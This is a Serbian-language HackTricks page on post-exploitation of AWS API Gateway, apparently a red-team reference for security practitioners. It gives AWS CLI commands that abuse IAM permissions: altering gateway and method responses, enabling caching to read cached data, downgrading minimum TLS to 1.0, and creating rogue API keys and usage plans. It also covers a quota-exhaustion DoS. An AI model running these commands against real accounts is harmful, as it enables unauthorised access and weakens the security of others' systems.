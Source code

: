 # AWS - Posteksploatacija API Gateway-a

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## API Gateway

Za više informacija proverite:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Pristup neeksponiranim API-ima

Možete kreirati endpoint na [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) sa uslugom com.amazonaws.us-east-1.execute-api, eksponirati endpoint u mreži gde imate pristup (potencijalno putem EC2 mašine) i dodeliti sigurnosnu grupu koja dozvoljava sve konekcije.\
Zatim, sa EC2 mašine ćete moći da pristupite endpointu i stoga pozovete API gateway koji prethodno nije bio eksponiran.

### DoS napadi na Usage Plans

U odeljku **Enumeration** možete videti kako **dobiti usage plan** ključeva. Ako imate ključ i on je **ograničen** na X korišćenja **mesečno**, možete ga **jednostavno koristiti i izazvati DoS**.

**API ključ** samo treba biti **uključen** unutar **HTTP zaglavlja** nazvanog **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` može **izmeniti postojeći Gateway Response da uključi prilagođene zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Curenje osetljivih informacija, izvršavanje zlonamernih skripti ili neovlašćeni pristup API resursima.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateStage` i `apigateway:CreateDeployment` može **izmeniti postojeći API Gateway stage kako bi preusmerio saobraćaj na drugi stage ili promenio postavke keširanja kako bi dobio neovlašćeni pristup keširanim podacima**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Neovlašćen pristup keširanim podacima, ometanje ili presretanje API saobraćaja.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` može **izmeniti odgovor metode postojećeg API Gateway REST API-ja da uključi prilagođene zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Curenje osetljivih informacija, izvršavanje zlonamernih skripti ili neovlašćeni pristup API resursima.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` može **izmeniti podešavanja API Gateway REST API-ja kako bi onemogućio beleženje ili promenio minimalnu verziju TLS-a, potencijalno oslabljujući sigurnost API-ja**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Oslabljivanje sigurnosti API-ja, potencijalno omogućavanje neovlašćenog pristupa ili otkrivanje osetljivih informacija.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Napadač sa dozvolama `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` može **kreirati nove API ključeve, povezati ih sa planovima korišćenja, a zatim koristiti ove ključeve za neovlašćen pristup API-ju**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencijalni uticaj**: Neovlašćen pristup API resursima, zaobilaženje sigurnosnih kontrola.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
